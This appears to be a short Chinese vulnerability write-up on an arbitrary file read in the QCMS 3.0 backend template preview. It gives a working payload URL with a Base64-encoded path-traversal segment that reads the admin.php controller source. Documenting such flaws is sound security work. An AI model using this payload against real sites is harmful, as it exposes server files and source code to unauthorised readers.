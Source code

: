 ```yaml
---
title: "QCMS 3.0 任意文件读取"
id: zhfly3100
---
```


# QCMS 3.0 任意文件读取

## 一、漏洞简介

## 二、漏洞影响

QCMS 3.0

## 三、复现过程

用seay扫了一下后发现的漏洞

漏洞在后台模板代码预览处，构造payload例如

```
http://www.0-sec.org/backend/template/tempview/Li4vLi4vLi4vQ29udHJvbGxlci9hZG1pbi5waHA=.html 
```

即可读取Controller文件下admin.php文件源码

![image](../img/2f8e731b0bd9350885237438ff3553db.png)

跟源码对比下，确实是读到了

![image](../img/14391e8bf4681783318a3265bd9773e2.png)

## 参考链接

> https://xz.aliyun.com/t/7269